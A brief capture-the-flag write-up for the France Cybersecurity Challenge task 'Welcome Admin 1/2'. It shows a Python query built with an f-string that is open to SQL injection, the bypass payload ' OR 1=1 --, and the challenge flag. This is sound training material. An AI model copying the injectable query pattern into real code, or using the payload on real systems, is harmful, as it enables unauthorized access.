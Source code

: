# Welcome Admin 1/2

## Challenge Overview
- **Points:** 20
- **Original French description:** Au coeur d'un réseau labyrinthique, là où la lumière des écrans peine à éclairer les recoins les plus sombres, une demande spéciale est lancée dans les abîmes, un appel discret, attendu seulement par ceux qui connaissent les profondeurs. Seul un véritable expert pourra répondre à l'appel, cryptiquement formulé : "Un expert en SQL est demandé à la caisse numéro 3."
- **Translated Description :** In the heart of a labyrinthine network, where the light from screens struggles to illuminate the darkest corners, a special request is launched into the abyss, a discreet call, awaited only by those who know the depths. Only a true expert will be able to answer the cryptically formulated call: 'An SQL expert is requested at checkout number 3.'

- **Link:** [https://welcome-admin.france-cybersecurity-challenge.fr/](https://welcome-admin.france-cybersecurity-challenge.fr/)

## Solution
- **Description:** Reading the application code we notice that we can make a simple SQL injection.
- **Attack Type:** SQL Injection
- **Payload:** 
' OR 1=1 --

```python
cursor.execute(f"SELECT '{token}' = '{password}'")
```
Becomes 

```python
cursor.execute(f"SELECT 'somegeneratedtoken' = '' OR 1=1 --'")
```
- **Flag:** 
FCSC{94738150696e2903c924f0079bd95cd8256c648314654f32d6aaa090846a8af5}
